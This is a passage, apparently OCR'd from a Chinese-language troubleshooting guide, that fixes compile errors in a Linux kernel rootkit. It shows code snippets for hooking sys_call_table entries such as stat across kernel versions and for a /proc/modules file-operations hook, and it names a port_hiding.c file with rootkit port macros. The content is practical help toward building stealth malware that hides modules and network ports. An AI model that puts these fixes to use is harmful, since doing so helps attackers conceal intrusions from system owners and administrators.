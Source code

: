 ### 3. THIS_MODULE重复声明

**错误信息**:
```
error: expected identifier or '(' before '&' token
```

**原因**: `THIS_MODULE`已在内核头文件中定义为宏。

**解决方案**:
移除`extern struct module *THIS_MODULE;`声明。

### 4. original_proc_modules_fops未声明

**错误信息**:
```
error: 'original_proc_modules_fops' undeclared (first use in this function)
```

**解决方案**:
该变量被条件编译保护，但使用它的函数没有相应保护。在使用该变量的地方添加条件编译:
```c
#if LINUX_VERSION_CODE < KERNEL_VERSION(5,6,0)
    original_proc_modules_fops ? "Yes" : "No"
#else
    "Not Supported"
#endif
```

### 5. __NR_newfstat系统调用号未定义

**错误信息**:
```
error: '__NR_newfstat' undeclared (first use in this function)
```

**解决方案**:
在Linux内核5.15及更高版本中，`__NR_newfstat` 被替换为 `__NR_fstat`。需要添加条件编译:
```c
#ifdef __NR_newfstat
    original_stat = (void *)sys_call_table[__NR_newfstat];
#elif defined(__NR_fstat)
    original_stat = (void *)sys_call_table[__NR_fstat];
#else
    original_stat = NULL;
    printk(KERN_WARNING "[rootkit] stat syscall not available\n");
#endif
```

## 7. port_hiding.c函数重定义和宏未定义错误

**错误信息**:
```
port_hiding.c:82:12: error: redefinition of 'is_magic_port'
port_hiding.c:84:26: error: 'MAGIC_PORT_RANGE_START' undeclared
port_hiding.c:89:50: error: 'ROOTKIT_PORT' undeclared
```
